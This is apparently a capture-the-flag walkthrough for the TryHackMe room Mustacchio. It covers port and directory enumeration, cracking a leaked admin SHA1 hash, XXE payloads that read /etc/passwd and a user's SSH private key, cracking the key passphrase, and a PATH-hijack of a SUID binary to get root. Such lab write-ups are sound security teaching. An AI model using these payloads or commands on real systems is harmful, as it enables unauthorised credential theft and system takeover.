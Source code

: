 # 26 - Mustacchio (XML Injection)

Room Link --> [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -p- -sS -Pn -n -T5 10.10.109.222 -vv

# outputs
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8765/tcp open  ultraseek-http syn-ack ttl 63
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# output
/custom 
/fonts
/images
```
{% endcode %}

Navigating to http://10.10.109.222/custom and discovered a "users.bak" sqlite db file, then opened and found credentials for "admin" user.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or we can use the Sqlite3 cmd binary to view.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ sqlite3 users.bak                                                                                     
SQLite version 3.43.1 2023-09-11 12:01:27
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> pragma table_info(users);
0|username|TEXT|1||0
1|password|TEXT|1||0
sqlite> SELECT * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
sqlite>
```
{% endcode %}

Crack the hash using john.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# its a sha1 hash.
john passwd --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1
bulldog19        (?)

# got a valid credential
admin : bulldog19
```
{% endcode %}

#### port 8765 enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222:8765 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# outputs
/assets
/auth
/index.php
```
{% endcode %}

Navigating to `http://10.10.109.222:8765/index.php` was an admin login session.

I tried the admin credentials and was logged in successfully.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After authentication ,check the source code and see a link in the "\<script>" session.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigating to the path:  `http://10.10.109.222:8765/auth/dontforget.bak` downloaded the  "dontforget.bak" file. And there is also a comment in the page displaying a username: Barry.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

When you click the SUbmit button we get prompted with a "Insert XML Code!" alert, which suggest the page might be vulnerable to XML injection attack.

A resource we can use to structure our payload --> [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity?source=post\_page-----ee526a543d8a--------------------------------)

#### XML Injection

I Was able to craft my own payload to view the /etc/passwd file usisng the structure of the XML code in the "dontforget.bak" file.

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/etc/passwd"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we see 2 users + root, ie; Joe, Barry and Root. Our focus should be on reading the ssh private key for Barry as hinted by the comment in the source code. And i crafted another payload to read it:

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It will be hard to use in this case, so i viewed the source code instead.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First thing is to check if it iss encrypted by converting it to a crackable format for "johnthereaper"

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# and the password is:
urieljames       (id_rsa)

# login ssh.
ssh barry@10.10.109.222 -i id_rsa
```
{% endcode %}

And we got access :)

### Priv Esc to Joe

#### SUID binaries:

{% code overflow="wrap" lineNumbers="true" %}
```bash
find / -user root -perm /4000 -exec ls -l {} \; 2>/dev/null

# i ssaw a "/home/joe/live_log" binary 
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
```
{% endcode %}

Using the **strings** command, I could see that the binary was using the **tail** command to read the last 10 entries in the _/var/log/nginx/access.log_ file. We could exploit this.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we get root this way.

barry@mustacchio:~$ echo "/bin/sh" > /tmp/tail
barry@mustacchio:~$ export PATH=/tmp:$PATH 
barry@mustacchio:~$ /home/joe/live_log
# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
# 
```
{% endcode %}

Done!

